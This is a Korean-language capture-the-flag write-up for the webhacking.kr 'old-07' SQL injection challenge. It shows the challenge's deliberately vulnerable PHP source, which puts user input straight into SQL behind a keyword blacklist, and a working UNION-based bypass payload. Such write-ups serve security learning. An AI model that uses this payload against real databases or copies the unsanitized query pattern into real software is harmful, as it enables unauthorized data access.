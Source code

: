 ```yaml
---
title: ["[Webhacking.kr] old-07 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

## Intro
```php
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
```

쿼리의 result값 중 첫번째 값이 `2`이면 풀리는 문제다.  
중간에 randomization으로 sqli 방어를 시도했지만, 타겟으로 한 쿼리가 나올 때까지 요청을 보내면 된다.  

## Analysis

```sql
select lv from chall7 where lv=($go)
```

`2`, `-`, `+`, `from`, `_`, `=`, `\s`, `*`, `/` 는 사용할 수 없다.  

입력값을 `1^3`을 준다면 쿼리가 아래와 같이 완성된다.  
```sql
select lv from chall7 where lv=(1^3)
```  
`1 XOR 3`은 `2`이므로, 쉽게 결과가 나올 것이라고 생각했는데
`query error`라는 응답이 왔다.  
`query error`는 쿼리의 결과가 없을 때 발생한다.  
혹시 `^`가 필터링 되거나 문자열로 인식이 되나 싶어서 다른 입력값을 생각해보았다.  

입력값을 `0)or(lv>1`을 준다면 쿼리가 아래와 같이 완성된다.  
```sql
select lv from chall7 where lv=(0)or(lv>1)
```  
하지만 마찬가지로 `query error`라는 응답이 왔다.  

즉, 테이블에 `lv`이 `1`인 데이터 외에는 없다고 판단할 수 있다.

## Payload

union select문을 사용해서 결과에 2를 넣을 수 있다.  
```
/challenge/web-07/index.php?val=0)union(select(1^3)
```

쿼리는 아래와 같이 완성된다.  

```sql
select lv from chall7 where lv=0)union(select(1^3))
```